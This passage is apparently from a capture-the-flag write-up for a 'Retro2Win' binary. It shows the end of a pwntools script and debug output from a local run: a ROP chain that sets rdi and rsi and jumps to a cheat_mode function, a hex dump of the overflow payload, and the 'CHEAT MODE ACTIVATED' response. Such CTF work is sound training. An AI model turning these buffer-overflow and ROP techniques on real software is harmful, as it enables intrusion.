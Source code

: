 ```python

pprint(rop.dump())

# Send the payload
io.sendlineafter(b'cheatcode:', payload)

# Get flag
io.interactive()
```

{% endcode %}

For some reason, it only comes through in the debug. Not sure if this is down to my exploit, the config on the server env (maybe the `socat` command in the dockerfile) or the C code itself. I CBA to debug, you'll work it out! 😅

{% code overflow="wrap" %}

```bash
[+] Opening connection to 127.0.0.1 on port 1338: Done
[DEBUG] Received 0xa8 bytes:
    b'*****************************\r\n'
    b'*       Retro2Win Game      *\r\n'
    b'*****************************\r\n'
    b'1. Explore the Forest\r\n'
    b'2. Battle the Dragon\r\n'
    b'3. Quit\r\n'
    b'\r\n'
    b'Select an option:\r\n'
[DEBUG] Sent 0x5 bytes:
    b'1337\n'
[*] Loaded 14 cached gadgets for './retro2win'
('0x0000:         0x4009b3 pop rdi; ret\n'
 '0x0008: 0x2323232323232323 [arg0] rdi = 2531906049332683555\n'
 '0x0010:         0x4009b1 pop rsi; pop r15; ret\n'
 '0x0018: 0x4242424242424242 [arg1] rsi = 4774451407313060418\n'
 "0x0020:      b'iaaajaaa' <pad r15>\n"
 '0x0028:         0x400736 cheat_mode')
[DEBUG] Received 0x6 bytes:
    b'1337\r\n'
[DEBUG] Received 0x17 bytes:
    b'Enter your cheatcode:\r\n'
[DEBUG] Sent 0x49 bytes:
    00000000  61 61 61 61  62 61 61 61  63 61 61 61  64 61 61 61  │aaaa│baaa│caaa│daaa│
    00000010  65 61 61 61  66 61 61 61  b3 09 40 00  00 00 00 00  │eaaa│faaa│··@·│····│
    00000020  23 23 23 23  23 23 23 23  b1 09 40 00  00 00 00 00  │####│####│··@·│····│
    00000030  42 42 42 42  42 42 42 42  69 61 61 61  6a 61 61 61  │BBBB│BBBB│iaaa│jaaa│
    00000040  36 07 40 00  00 00 00 00  0a                        │6·@·│····│·│
    00000049
[*] Switching to interactive mode

[DEBUG] Received 0xf3 bytes:
    00000000  61 61 61 61  62 61 61 61  63 61 61 61  64 61 61 61  │aaaa│baaa│caaa│daaa│
    00000010  65 61 61 61  66 61 61 61  b3 09 40 5e  40 5e 40 5e  │eaaa│faaa│··@^│@^@^│
    00000020  40 5e 40 5e  40 23 23 23  23 23 23 23  23 b1 09 40  │@^@^│@###│####│#··@│
    00000030  5e 40 5e 40  5e 40 5e 40  5e 40 42 42  42 42 42 42  │^@^@│^@^@│^@BB│BBBB│
    00000040  42 42 69 61  61 61 6a 61  61 61 36 5e  47 40 5e 40  │BBia│aaja│aa6^│G@^@│
    00000050  5e 40 5e 40  5e 40 5e 40  0d 0a 43 68  65 63 6b 69  │^@^@│^@^@│··Ch│ecki│
    00000060  6e 67 20 63  68 65 61 74  63 6f 64 65  3a 20 61 61  │ng c│heat│code│: aa│
    00000070  61 61 62 61  61 61 63 61  61 61 64 61  61 61 65 61  │aaba│aaca│aada│aaea│
    00000080  61 61 66 61  61 61 b3 09  40 21 0d 0a  43 48 45 41  │aafa│aa··│@!··│CHEA│
    00000090  54 20 4d 4f  44 45 20 41  43 54 49 56  41 54 45 44  │T MO│DE A│CTIV│ATED│
    000000a0  21 0d 0a 59  6f 75 20 6e  6f 77 20 68  61 76 65 20  │!··Y│ou n│ow h│ave │
    000000b0  61 63 63 65  73 73 20 74  6f 20 73 65  63 72 65 74  │acce│ss t│o se│cret│
    000000c0  20 64 65 76  65 6c 6f 70  65 72 20 74  6f 6f 6c 73  │ dev│elop│er t│ools│
```